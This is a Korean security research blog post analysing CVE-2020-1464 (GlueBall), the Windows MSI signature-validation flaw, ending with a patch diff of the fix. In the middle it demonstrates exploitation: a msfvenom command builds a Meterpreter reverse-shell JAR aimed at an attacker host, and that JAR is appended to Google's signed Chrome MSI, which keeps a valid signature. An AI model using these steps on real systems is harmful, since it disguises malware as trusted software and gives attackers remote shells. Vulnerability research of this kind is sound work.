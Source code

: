 ```yaml
---
title: "[연구] CVE-2020-1464 - GlueBall"
author: L0ch
tags: [L0ch, cve-2020, research]
categories: [Research]
date: 2020-10-01 18:00:00
cc: false
index_img: /2020/10/01/l0ch/cve-2020-1464/image3.jpeg
---
```


# [연구] CVE-2020-1464 - GlueBall



안녕하세요!

오늘은 얼마전 하루한줄에 올라온 GlueBall 취약점 분석을 들고 왔답니다

분석도 쉽고 익스도 간단한 걸 골랐습니다! 왜냐 귀찮으니까요!! (이놈의 게으름 어쩔 ㅋㅋㅋㅋㅋㅋ..) 

[대충 하루한줄 링크] 

```markdown
요약글을 먼저 보면 이해하기 편해요!
```

사실 이번 취약점이 발견된 때는 2018년 9월로, 마이크로소프트가 이번 20년 8월 정기 패치 때 2년이 지나서야 패치가 되어 재조명되었어요. 왜 이제야 패치를 한 건지는 조금 의아한 부분이 있죠..?

뒷이야기는 일단 제쳐두도록 하고, 본격적으로 어떤 취약점인지 분석과 익스플로잇까지 해보도록 하겠습니다 ~ 

### MSI(Microsoft Installer)

MSI는 Windows 설치 패키지로, Windows용으로 개발된 타사 프로그램의 설치 및 업데이트 프로그램을 배포하는데 사용됩니다.

여러 개발사들이 윈도우용 프로그램을 배포할 때 MSI 로 배포합니다. 오늘의 희생양이 될 구글의 크롬도 MSI 설치 패키지를 배포하고 있죠

![](cve-2020-1464/image1.png)

### Code Signing Certificate

윈도우용 실행 파일(exe, msi, dll...) 을 실행할 때, 사용자들은 실행하려는 파일이 정상적인 파일인지, 해커에 의해 변조된 파일인지 확인하기가 어렵습니다. 원본파일과 해시값 비교를 하면 되지만, 대부분의 사람들은 그렇게 하기 어렵죠.  

그래서 MS는 Code Signing Certificate(코드 서명 인증서) 를 도입했습니다.

이 인증서는 파일을 배포할 때 "이건 안전한 파일임 내가 보증함!" 이라고 증명 해주는 역할을 합니다. 인증서가 없거나, 파일 변조로 인해 인증서가 유효하지 않게 되면 브라우저에서 파일을 다운받거나 윈도우에서 실행할 때 위험한 파일일 수도 있다는 경고를 띄워 사용자들에게 알립니다.

![](cve-2020-1464/image2.png)

```jsx
크롬 설치프로그램 MSI 파일의 인증서
유효한 인증서가 있으면 윈도우에서는 파일을 신뢰하게 됩니다.
```

MS의 SmartScreen filter는 인증서들에 대한 자체적인 white list DB를 관리하며 해당 인증서가 안전한지 아닌지 판단합니다.

인증서는 발급 절차가 까다롭고 받았다고 하더라도 일정 횟수 이상, 일정 기간 이상, 일정 사용자들에게 다운로드 되어야 하고 악성 행위 신고가 없어야 신뢰받는 인증서로 white list에 등록이 됩니다.

이러한 점 때문에 해커들이 악성 파일을 제작하고, 신뢰를 주기 위해 인증서를 등록한다 하더라도 white list에 포함되기는 불가능하겠죠..? 

하지만 유효한 인증서가 존재하는 파일을 변조해 악성 파일을 포함시키면 어떻게 될까요? 인증서를 확인했을 때 "오 얘는 인증서가 있네, 너 통과. 내가 보증함" 하면 포함된 악성파일은 거기에 무임승차를 할 수 있는거죠!

![](cve-2020-1464/image3.jpeg)

```jsx
무임승차 가보자~ 가보자~
```

"어? 파일이 변조되면 인증서가 유효하지 않잖아요!" 

네 맞습니다. 원래대로라면 파일을 변조하면 인증서는 유효하지 않게 되죠. 하지만 이 부분이 이번 취약점의 핵심입니다.

### GlueBall : CVE-2020-1464

해당 취약점은 MSI 파일의 디지털 인증서를 확인하는 과정에서 발생합니다.

MSI 파일을 실행하면 `msisip.dll` 의 `MsiSIPVerifyIndirectData()` 함수에서 파일의 시작 부분이 유효한 MSI 파일인지 검증하고 서명을 확인하는데요 이 때 파일의 사이즈를 검증하지 않습니다.

![](cve-2020-1464/image4.png)

따라서 MSI 파일의 뒤에 어떠한 데이터를 추가해 변조할 수 있습니다.

취약점은 엄청 간단하죠? 그렇다면 이를 이용해 어떻게 익스플로잇으로 연결하는지 알아볼게요!

### JAR(Java Archive)

자바 플랫폼 배포를 위한 패키지 파일 포맷입니다. 자바 개발 경험이 있으시거나 자바 기반 프로그램을 사용해본 적이 있는 익숙하실 거에요.

jar 은 zip 포맷으로 빌드되어 자바 런타임에서 로드할 때 파일의 끝부분에서부터 로드합니다. 그러니까 파일의 시작 부분에 임의의 데이터를 추가해도 자바 런타임에서는 정상적으로 jar을 실행할 수 있습니다.

이제 슬슬 감이 오시는 분도 계실거에요. 정리하자면

**MSI 파일 끝에 임의 데이터가 와도 유효한 인증서가 되는 취약점 + 파일 앞에 임의의 데이터가 있어도 정상 실행되는 jar**

**⇒ 신뢰받는(?) 악성파일**

이를 그림으로 표현하면

![Overview-JAR-appended-to-MSI](cve-2020-1464/image5.png)

```jsx
출처 : https://www.securityinbits.com/malware-analysis/interesting-tactic-by-ratty-adwind-distribution-of-jar-appended-to-signed-msi/
```

이렇게 인증서로 인증된 ~~*혼종*~~ 악성파일을 생성할 수 있습니다!

![](cve-2020-1464/image6.png)

```jsx
이런느낌..? 민초단 여러분 죄송합니다.(그래도 저건 아니잖아요..)
```

이제는 리버스쉘을 실행하는 jar 파일을 생성해서 인증서가 있는 msi 파일로 둔갑시켜 보도록 하겠습니다. 

먼저 구글에서 배포하는 크롬 설치 msi 파일을 다운로드합니다. 구글에서 "크롬 msi" 검색하시면 바로 받을 수 있고 인증서 확인은 우클릭→속성에서 "디지털 서명" 탭을 확인하면 아까 보셨던 사진처럼 확인이 가능해요.

이제 msfvenom으로 리버스쉘 페이로드가 포함된 jar파일을 생성합니다.

![](cve-2020-1464/image7.png)

```markdown
msfvenom -p java/meterpreter/revserse_https LHOST=[HOST IP] -f jar -o [filename].jar
```

그리고 msfconsole에서 리버스쉘 리스너를 실행합니다. 

![](cve-2020-1464/image8.png)

```markdown
handler -p java/meterpreter/reverse_https -H 0.0.0.0 
```

이제 RCE를 위한 준비는 끝!

생성된 jar 파일과 크롬 설치 msi 파일을 같은 폴더에 두고 합쳐버립니다. 이 때 꼭 msi파일 뒤에 jar 파일이 오도록 순서를 지켜야 한다는 점!

![](cve-2020-1464/image9.png)

이제 생성된 exploit.jar 에서 인증서가 유효한지 확인해보면

![](cve-2020-1464/image10.png)

요렇게 유효한 인증서로 나오는 것을 볼 수 있습니다. 

실행을 해보면 피해 PC에서는 아무 반응도 없지만, 프로세스에서는 자바가 돌아가고 있고

![](cve-2020-1464/image11.png)

짜잔! 리버스쉘이 정상적으로 동작하는 걸 볼 수 있습니다! 와아~ 

### Patch diffing

MS는 이에 대한 패치를 내놓았는데요, 어떻게 패치를 했는지 간단하게 Diffing해볼게요

![](cve-2020-1464/image12.png)

회색 노드는 새로 추가된 코드, 노란색 노드는 변경된 노드입니다.

![](cve-2020-1464/image13.png)

회색 노드를 보면 `MsiSIPVerifyIndirectData()` 함수에서 `NeedFileSizeVerification()` 과 `VerifyFileSize()` 를 호출하는 코드가 추가된 것을 보아 MSI 파일의 사이즈를 확인하는 코드를 추가해 취약점 패치를 한 것을 알 수 있습니다.

여기까지 GlueBall 취약점에 대해 알아봤습니다. 참 쉽죠?

마지막 patch diffing에 대해 궁금하시다면 [Windows Patch Diffing Part.1 링크] 글을 읽으시면 좋아요!